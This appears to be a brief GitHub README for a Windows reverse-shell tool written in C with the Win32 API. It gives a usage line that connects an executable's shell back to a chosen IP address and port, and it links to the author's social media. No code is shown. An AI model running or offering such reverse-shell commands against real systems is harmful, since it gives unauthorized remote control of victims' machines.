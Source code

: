 # Introduction
Reverse Shell Written in C using Win32 API.

# Usage 
`.\ReverseShellWin32.exe <executable> <ip address> <port>`

# Social Media
- [Youtube](https://youtube.com/Melardev)
- [Twitter](https://twitter.com/@melardev)
- [Instagram](https://instagram.com/melar_dev)
- [Blog](http://melardev.com)
